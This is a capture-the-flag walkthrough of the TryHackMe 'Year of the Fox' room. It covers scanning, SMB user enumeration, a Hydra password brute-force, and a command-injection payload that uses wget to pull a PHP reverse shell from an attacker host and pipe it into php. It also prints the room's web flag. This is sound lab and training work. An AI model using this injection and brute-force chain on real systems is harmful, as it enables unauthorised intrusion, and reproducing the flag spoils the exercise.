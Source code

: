 # Year of the Fox

## Overview

Don't underestimate the sly old fox...

Room link: https://tryhackme.com/room/yotf
Difficulty: **Hard**

## Walkthrough

Starting an initial Nmap scan:

```console
$ nmap -p- -T4 10.10.227.75 -oN scans/initial.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-01 16:54 GMT
Nmap scan report for 10.10.227.75
Host is up (0.035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 39.39 seconds
```

Running a specific port scan:

```console
$ sudo nmap -p 80,139,445 -T4 -A 10.10.227.75 -oN scans/open_ports.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-01 16:56 GMT
Nmap scan report for 10.10.227.75
Host is up (0.069s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  ����      V      Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb2-time: 
|   date: 2024-01-01T16:56:20
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 0s, deviation: 1s, median: -1s
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2024-01-01T16:56:20+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.14 ms 10.8.0.1
2   99.35 ms 10.10.227.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.88 seconds
```

Navigating to the website, we are asked to authenticate and given a `HTTP 401 Unauthorized` error. As we don't have any usernames, we need must enumerate the host further. Running `enum4linux` provides more insight into the shares on the host and the usernames:

![Year of the Fox - enum4linux shares](tryhackme/images/yotf_enum4linux_shares.png)

![Year of the Fox - enum4linux users](tryhackme/images/yotf_enum4linux_users.png)

With these two users we can bruteforce the authentication page with Hydra. Note, that each time the machine reboots, the password for the user changes

```console
$ hydra -L users.lst -P /usr/share/wordlists/rockyou.txt 10.10.195.56 http-head / 
```

![Year of the Fox - rascal Credentials](tryhackme/images/yotf_rascal_creds.png)

Logging in with these credentials shows a search interface that lists the contents of directories:

![Year of the Fox - Rascal's Search System](tryhackme/images/yotf_rascal_search_system.png)

![Year of the Fox - Directory Listing](tryhackme/images/yotf_directory_listing.png)

We can bypass the client-side filtering by using BurpSuite.

After some fuzzing of special characters, we see `\` is still valid and is not removed by the filter. We can therefore upload a [reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) onto the host and catch a callback via Netcat:

```console
# Attacker Machine
$ python3 -m http.server <PORT>
```

```
\"; wget -O - -q http://<ATTACKER_IP>:<PORT>/revshell.php | php; \"
```

Once we make the above request via BurpSuite, we obtain a callback on our Netcat listener:

![Year of the Fox - Netcat Callback](tryhackme/images/yotf_nc_callback.png)

Navigating through the filesystem, we can obtain the web flag:

![Year of the Fox - Web Flag](tryhackme/images/yotf_web_flag.png)

-----

1. What is the **web** flag?

```
THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}
```

2. What is the **user** flag?

```

```

3. What is the **root** flag?

```

```
